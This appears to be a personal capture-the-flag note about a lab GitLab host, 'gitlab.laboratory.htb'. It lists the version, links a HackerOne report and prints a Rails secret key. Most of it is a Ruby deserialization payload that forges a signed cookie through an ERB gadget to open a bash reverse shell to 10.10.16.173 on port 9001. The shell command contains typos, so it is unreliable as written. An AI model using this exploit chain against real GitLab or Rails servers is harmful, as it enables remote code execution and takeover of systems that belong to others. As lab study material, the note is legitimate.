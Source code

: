 # gitlab.laboratory.htb

## Version

![](Pasted%20image%2020210530145505.png)

- Released February 2020

## Vuln

Link: [Vulnerability Write-Up](https://hackerone.com/reports/827052)

![](Pasted%20image%2020210530145754.png)

## Secret Key

3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3

## Deserialize Payload

```
request = ActionDispatch::Request.new(Rails.application.env\_config) 
request.env\["action\_dispatch.cookies\_serializer"\] = :marshal 
cookies = request.cookie\_jar 

erb \= ERB.new("<%= \`bash-c 'bash -I >& /dev/tcp/10.10.16.173/9001 @>1'\` %>") 
depr \= ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new) 
cookies.signed\[:cookie\] = depr 
puts cookies\[:cookie\]
```